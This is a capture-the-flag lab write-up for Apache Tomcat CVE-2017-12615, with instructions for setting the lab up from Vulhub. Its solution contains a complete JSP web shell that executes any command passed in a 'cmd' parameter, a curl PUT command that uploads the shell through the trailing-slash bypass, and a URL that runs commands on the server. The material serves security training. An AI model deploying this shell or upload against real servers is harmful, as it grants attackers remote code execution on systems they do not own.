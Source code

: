 # Challenge 7: Tom & Jerry

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates how to upload a malicious payload to a vulnerable Apache Tomcat server in order to gain **remote shell access**.

---

## Solution

### 1. Create `shell.jsp`
```jsp
<% 
  if(request.getParameter("cmd") != null) {
    String cmd = request.getParameter("cmd");
    String output = "";
    Process p = Runtime.getRuntime().exec(cmd);
    java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = null;
    while ((line = reader.readLine()) != null) {
        output += line + "<br>";
    }
    out.println(output);
  }
%>
```

### 2. Upload the Payload
```bash
curl -v -X PUT "http://localhost:8010/shell.jsp/" --data-binary "@shell.jsp" -H "Content-Type: application/octet-stream"
```

### 3. Access the Web Shell
Once uploaded, execute commands through the shell, for example, to retrieve the flag:
```bash
http://localhost:8010/shell.jsp?cmd=cat%20/usr/local/tomcat/webapps/ROOT/flag.txt
```

**Flag:**
```
Flag{tomcat_rce_success}
```

---

## How to Recreate

### 1. Clone Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to the Tomcat CVE Directory
```bash
cd vulhub/tomcat/CVE-2017-12615
```

### 3. Build and Start the Container
```bash
docker compose up -d
```

### 4. Verify in Browser
Visit:
```
http://localhost:<port>
```

### 5. Add the Flag
Enter the container:
```bash
docker exec -it <container_id> /bin/bash
```
Create the flag file:
```bash
echo "Flag{tomcat_rce_success}" > /usr/local/tomcat/webapps/ROOT/flag.txt
```

---

## Final Notes
This challenge demonstrates the risk of improperly secured file upload mechanisms and outdated Tomcat configurations, which can allow attackers to upload and execute arbitrary code.
